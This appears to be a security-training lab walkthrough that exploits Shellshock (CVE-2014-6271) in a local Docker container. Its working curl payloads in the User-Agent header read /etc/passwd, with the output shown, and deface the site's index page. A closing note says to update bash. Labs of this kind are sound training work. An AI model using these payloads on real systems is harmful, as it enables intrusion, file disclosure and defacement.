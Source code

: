 ## Vulnerable/Outdated Libraries- Shell-Shock (Bash) 

##### Step 1:
* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:
*  **cd** into  `Labs/3.0.0-Container-Attacks/3.7.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.7.0
    ```

##### Step 3:
* Run the image vulnerable to shell-shock `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    
    ```
    
##### Step 3:
* Open browser and run `http://localhost:8080`

```commandline
image required
```

##### Step 4:
* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
> http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 5:
* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```

##### Step 6:
* Access http://localhost:8080 on browser to confirm.

```commandline
image required
```


**Note:**  To fix the vulnerability, update bash